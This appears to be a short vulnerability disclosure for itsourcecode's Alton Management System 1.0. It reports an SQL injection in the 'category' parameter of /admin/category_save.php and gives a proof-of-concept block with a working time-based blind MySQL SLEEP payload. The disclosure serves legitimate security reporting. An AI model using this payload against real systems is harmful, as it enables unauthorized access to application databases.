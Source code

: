 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

Log in as an administrator user, access the "/admin/category_save.php" page, and pass in the "category" parameter. Due to lax filtering, this parameter can lead to SQL injection vulnerabilities.
<img width="1078" alt="image" src="https://github.com/user-attachments/assets/b24aea4e-41f2-49fa-98db-f3530ae978d9">

# Poc

```
Parameter: category (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: category=1' AND (SELECT 4315 FROM (SELECT(SLEEP(5)))UBMb) AND 'gUvK'='gUvK
```
